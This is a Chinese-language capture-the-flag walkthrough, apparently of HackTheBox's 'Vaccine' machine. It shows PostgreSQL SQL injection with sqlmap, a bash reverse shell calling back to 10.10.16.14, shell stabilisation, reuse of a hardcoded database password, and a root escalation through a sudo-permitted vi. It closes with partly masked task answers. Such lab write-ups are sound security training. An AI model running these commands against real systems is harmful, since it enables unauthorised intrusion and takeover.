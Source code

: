 注意这里要手动选择一下格式`--format=Raw-MD5`

输入admin和对应密码后跳转到dashboard.php，发现是一个检索功能，?search=xxx检索，这里尝试有无sql注入，输入Sandy能正常结果，输入Sandy ‘直接语法报错：

```
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%Sandy'%' ^
```

这个报错格式是**PostgreSQL**，我们不能使用`#`进行注释了，用`--`，`Sandy'--`正常显示。后面就是确定列数，看哪里有回显，然后一步步注入。

这里直接用sqlmap试试，

`sqlmap -u 'http://10.129.234.126/dashboard.php?search=Sandy' --cookie='PHPSESSID=sbjnvs7o00vtsfsr7a0384bcpv'`

拿到shell之后先`bash -c "bash -i >& /dev/tcp/10.10.16.14/2333 0>&1"`反弹，然后再

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
#下面慎重使用
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

完善我们的shell环境。这里是找到postgresql的用户名密码

```
try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}

```

这里是直接用这个用户名密码去ssh了。

然后就是提权：

```
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

vi编辑这个文件时候是root权限，我们直接命令模式下`:!/bin/bash`或者先`:set shell=/bin/sh`再`:shell`

直接逃逸出一个root权限的shell，结束。

```
Task 1

Besides SSH and HTTP, what other service is hosted on this box?

***
ftp

Hide Answer
Task 2

This service can be configured to allow login with any password for specific username. What is that username?

********s
```